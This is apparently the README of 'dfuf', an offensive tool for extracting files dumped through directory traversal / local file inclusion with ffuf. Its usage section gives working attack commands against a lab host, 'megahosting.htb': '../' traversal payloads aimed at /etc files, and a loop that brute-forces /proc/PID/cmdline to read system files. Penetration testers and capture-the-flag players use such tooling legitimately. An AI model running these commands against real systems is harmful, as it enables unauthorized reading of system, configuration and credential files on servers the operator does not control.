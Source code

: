 # dfuf - Dump Faster U Fool

## About

Utilize ffuf to dump files via Directory Traversal / LFI in a breeze.

This simple script can extract files from ffuf request dump (`-od` option).

**ffuf** should be faster than any LFI dumpers available on the public.

> The name of **dfuf** was inspired by **ffuf** (Fuzz Faster U Fool)

## Demo

[![asciicast](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj.svg)](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj)

## Installation

Make sure [pipx](https://github.com/pypa/pipx?tab=readme-ov-file#install-pipx) is installed.

```bash
pipx install git+https://github.com/opabravo/dfuf
```

## Usage

```bash
usage: dfuf [-h] -o FFUF_JSON_OUTPUT -od FFUF_OUTPUT_DIR dir_to_save_extracted_files

A tool to extract files from ffuf output

https://github.com/opabravo/dfuf

positional arguments:
  dir_to_save_extracted_files
                        Output directory where extracted files will be saved

options:
  -h, --help            show this help message and exit
  -o FFUF_JSON_OUTPUT, --ffuf-json-output FFUF_JSON_OUTPUT
                        Json output file from ffuf
  -od FFUF_OUTPUT_DIR, --ffuf-output-dir FFUF_OUTPUT_DIR
                        Output directory from ffuf

Usage:
    1. Dump files with ffuf
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json

    2. Extract files from ffuf output
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

Examples:
    1. Common linux files (880 lines) (~8 sec)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    2. Common files under `/etc` (8314 lines) (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w '/usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt' -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    3. Brute force cmdline in `/proc` (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

        View the result in a pretty format :
        $ find ffuf_dump/proc -type f -exec bash -c 'pid=$(echo $0 | cut -d '/' -f3); echo -en "\n$pid | "; cat $0' {} \; | sort -s -n -k 1,1
```

## License

[MIT](LICENSE)



